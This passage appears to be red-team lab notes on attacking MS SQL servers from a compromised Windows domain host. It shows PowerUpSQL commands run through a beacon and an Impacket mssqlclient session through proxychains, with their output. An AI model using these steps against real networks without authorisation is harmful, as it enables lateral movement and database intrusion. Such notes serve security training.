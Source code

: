 You may also search the domain for groups that sound like they may have access to database instances (for instance, there is a **MS SQL Admins** group).

Once you've gained access to a target user, `Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.

```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible
```

Then use `Get-SQLServerInfo` to gather more information about the instance.
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"

ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
```

For multiple servers
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

There are several options for issuing queries against a SQL instance.

`Get-SQLQuery` from PowerUpSQL:
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SRV-1
```

`mssqlclient.py` from Impacket via proxychains:

```
root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:1433-<><>-OK
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SRV-1): Line 1: Changed database context to 'master'.
[*] INFO(SRV-1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
[<>] Press help for extra shell commands
SQL> select @@servername;

SRV-1
```
Or a Windows SQL GUI (such as [HeidiSQL](https://www.heidisql.com/) or even [SMSS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)) via Proxifier:
